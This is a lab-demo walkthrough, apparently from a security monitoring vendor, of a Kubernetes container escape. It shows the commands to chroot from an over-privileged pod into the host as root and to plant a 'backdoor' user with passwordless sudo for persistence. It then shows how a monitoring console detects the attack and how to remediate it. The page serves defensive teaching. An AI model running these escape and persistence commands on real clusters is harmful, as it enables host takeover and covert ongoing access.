 # Container Escape Using Chroot

## Running the Exploit

> This exploit is based on <a href="https://madhuakula.com/kubernetes-goat/docs/scenarios/scenario-4/container-escape-to-the-host-system-in-kubernetes-containers/welcome" target="_blank">a Kubernetes Goat scenario</a>, updated to be compatible with modern Kubernetes.

One of the assets we have added to the cluster is a system monitor that has more permissions than is necessary. In this demo, we will exploit those extra permissions to escape the container environment and access the host machine. To start, use `kubectl exec` to access the container.

```sh
kubectl exec -it -n chroot $(kubectl get pods -n chroot -o jsonpath='{.items[0].metadata.name}') -- /bin/bash
```

In this scenario, the attacker has exploited a vulnerability in an application running in this container, obtaining a shell in the container environment. In theory, this shell should be restricted to only this container environment. However, running `mount` reveals that there is a link to the host system:

```sh
mount | grep 'host' | head
```
```
/dev/vda1 on /host-system type ext4 (rw,relatime,discard,errors=no-relo)
# ...
```

At the top of the mount entries, there is a `/host-system` folder. Running `ls` shows what seems to be the host machine's root directory.

```sh
ls /host-system/
```
```
CHANGELOG  bin  boot  data  dev  etc  home  hosthome  init  lib  lib64  libexec  linuxrc  media  mnt  opt  proc  root  run  sbin  srv  sys  tmp  usr  var  version.json
```

Additionally, running `capsh` shows that we have the chroot permission:

```sh
capsh --print | grep chroot
```

This allows us to change our root to act like we are in the mounted host system:

```sh
chroot /host-system bash
```

Now, we are in the root directory of the host system, and acting as root, which gives us all kinds of access. Depending on the software that is available on the machine, there are a few different exploits we could attempt. We can use the `which` command to test a few different options:

```sh
which PROGRAM
```

<details>
    <summary>If <code>docker</code> is installed</summary>

With Docker, we can see all of the pods that are running on the node:

```sh
docker ps
```

This will likely show many containers; to get a clearer picture, let's filter the output:

```sh
docker ps | grep 'payrolldb'
```

```
f1574caaf944   mongo                         "docker-entrypoint.s…"   2 minutes ago    Up 2 minutes     k8s_payrolldb_payrolldb-6cd444...9-ee3f1b0b1188_0
26dd4574d310   mongo                         "docker-entrypoint.s…"   2 minutes ago    Up 2 minutes     k8s_payrolldb_payrolldb-6cd444...52467_0
48aa23a10ad4   registry.k8s.io/pause:3.9     "/pause"                 2 minutes ago    Up 2 minutes     k8s_POD_payrolldb-6cd4447758-h...1b0b1188_0
fab536699cb3   registry.k8s.io/pause:3.9     "/pause"                 2 minutes ago    Up 2 minutes     k8s_POD_payrolldb-6cd4447758-l...0
```

At this point, we could `exec` into one of these containers and try to extract information, but for now, let's move on.

</details>

<details>
    <summary>If <code>crictl</code> is installed</summary>

`crictl` is an alternative command-line control to docker that integrates with Kubernetes. To start, let's use it to list the available pods:

```sh
crictl pods
```

In the list of pods, you should see:

```
POD ID              CREATED             STATE               NAME                                         NAMESPACE           ATTEMPT             RUNTIME
...
53544824341d9       7 minutes ago       Ready               payrolldb-b4889ff59-frtgd                    payroll-prod        5                   (default)
b4c2899629bab       7 minutes ago       Ready               payroll-calculator-85c9955696-bqz48          payroll-prod        5                   (default)
ffe96bd760b35       7 minutes ago       Ready               payroll-calculator-85c9955696-kkz7t          payroll-prod        5                   (default)
...
```

Let's look at the containers that are named payrolldb:

```sh
crictl ps --name payrolldb
```
```
CONTAINER           IMAGE                      CREATED             STATE               NAME                ATTEMPT             POD ID              POD
ae76168d27343       mongo@sha256:1a7...060be   8 minutes ago       Running             payrolldb           5                   53544824341d9       payrolldb-b4889ff59-frtgd
ef1a7665382ce       mongo@sha256:1a7...060be   9 minutes ago       Running             payrolldb           5                   e053f9804b343       payrolldb-67d4cf9fd9-vtlc9
060e3cc5e6f72       mongo@sha256:1a7...060be   9 minutes ago       Running             payrolldb           5                   8581f572b57c4       payrolldb-6cd4447758-hzldw
```

At this point, we could `exec` into one of these containers and try to extract information, but for now, let's move on.

</details>

<details>
    <summary>If neither is installed</summary>

If we don't have the tools we need, that doesn't matter: we have root access. This means we can install anything we need, such as docker:

```sh
apt install docker
```

> <i class="fa fa-circle-info"></i> **Note:**
> 
> The package installer and package may vary depending on the machine. Try `yum` or `apk` if `apt` isn't available. If the package is not found, try searching for it or updating the package list (`apt update`).

</details>

Let's move on to creating persistence. To do this, we will create a new user:

```sh
adduser backdoor
```

Provide values for the password and name if asked, or hit enter to skip them. Next, we need to give the backdoor user permission to use `sudo` so that they can get root access:

```sh
echo 'backdoor ALL=(ALL) NOPASSWD: ALL' | sudo tee -a /etc/sudoers
```

Now, we can test our new user:

```sh
su - backdoor
sudo -l
```

```
User backdoor may run the following commands on system-monitor-deployment-5d49dd76b9-dmbqs:
    (ALL) NOPASSWD: ALL
```

From here, we could then install ssh keys for the backdoor user or provide some other method of persistent access, such as a Cron job or systemd service.

In summary, we gained access to a vulnerable Kubernetes container and exploited its excessive access to gain root privileges on the host machine. From there, we investigated all containers running on this node and created a backdoor user with root access for persistence.


## Investigating the Results

Performing this exploit will trigger several red flags that are detected and collected into a single Spydertrace object. In the Spyderbat Console, navigate to the Dashboard page. In the Security tab, under "Recent Spydertraces with Score > 50", a new trace should appear, likely named "root_shell", or "container_escape_using_chroot...". Expanding the group name should show that it has an extremely high score of over 200, indicating a large number of linked high-severity flags. If the score is abnormally low (under 100), the data has likely not finished coming in yet. Refreshing after a minute should show a much higher score value. Selecting this Spydertrace, we can select "Start Process Investigation" to see the events of the exploit laid out in a Causal Tree in the investigation view:

![A section of the Spydertrace featuring one of my chroot commands](./chroot_flag_graph.png)

Here, we can clearly see the interactive Bash shell at the top of the container (the shaded box). Underneath, we can see the attacker running some investigation commands, escaping with the `chroot` command, later investigating with `crictl`, and creating persistence with `adduser`.

## Next Steps

Now that the vulnerable container has been identified and the backdoor user found, steps can be taken to end the existing access, update the pod configuration to remove the possibility of a chroot, and remove the new user from the cluster host machine to prevent the attacker from regaining access.

## Further Reading

For an example of lateral movement between pods instead of to the host system, see the [lateral movement within the cluster demo](../lateral/within.md). For an example of lateral movement between machines ouside of a cluster see the [multi-machine lateral movement demo](../lateral/outside.md).
